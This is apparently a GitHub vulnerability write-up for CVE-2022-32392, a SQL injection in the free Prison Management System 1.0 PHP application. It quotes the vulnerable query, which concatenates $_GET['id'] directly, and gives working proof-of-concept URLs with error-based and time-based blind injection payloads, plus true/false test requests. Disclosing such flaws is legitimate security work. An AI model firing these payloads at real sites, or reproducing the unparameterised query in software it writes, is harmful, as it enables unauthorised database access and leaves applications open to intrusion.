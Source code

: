# CVE-2022-32392
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/actions/manage_action.php:4`
```php
$qry = $conn->query("SELECT * from `action_list` where id = '{$_GET['id']}' and `delete_flag` = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/actions/manage_action.php?id=1'-if(database()/**/=/**/'pms_db',0,1)%23

# Time Based
http://localhost/pms/admin/actions/manage_action.php?id=1'-if(database()/**/like/**/'pms_db',0,sleep(1))%23
```
- True : 
`http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'pms_db',0,1)%23`
![True](./img/cve-2022-32392_true.png)
- False : 
`http://localhost/pms/admin/actions/view_action.php?id=1'-if(database()/**/=/**/'wrong',0,1)%23`
![False](./img/cve-2022-32392_false.png)